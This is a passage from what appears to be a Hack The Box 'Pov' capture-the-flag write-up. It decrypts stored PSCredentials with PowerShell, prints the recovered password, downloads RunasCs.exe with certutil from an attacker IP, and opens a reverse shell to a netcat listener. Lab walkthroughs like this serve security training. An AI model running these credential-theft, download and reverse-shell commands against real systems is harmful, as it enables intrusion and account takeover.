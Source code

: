 It includes encrypted **PSCredentials** for user **alaading**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-16.png)

Using the command below, we can easily decrypt it:

```powershell
$cred = Import-CliXml C:\Users\sfitz\Documents\connection.xml
$cred.GetNetworkCredential() | fl
```

PSCredentials is successfully decrypted: **f8gQ8fynP44ek1m3**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-17.png)

### RunasCS

Now that we have the credentials for user **alaading**, we should be able to run commands as him using **RunasCs.exe**.

Let's first upload **RunasCs.exe**:

`certutil.exe -urlcache -split -f http://10.10.14.36:1234/RunasCs.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-18.png)

Let's spawn reverse shell as alaading on our netcat listener:

`./RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.14.36:1338`
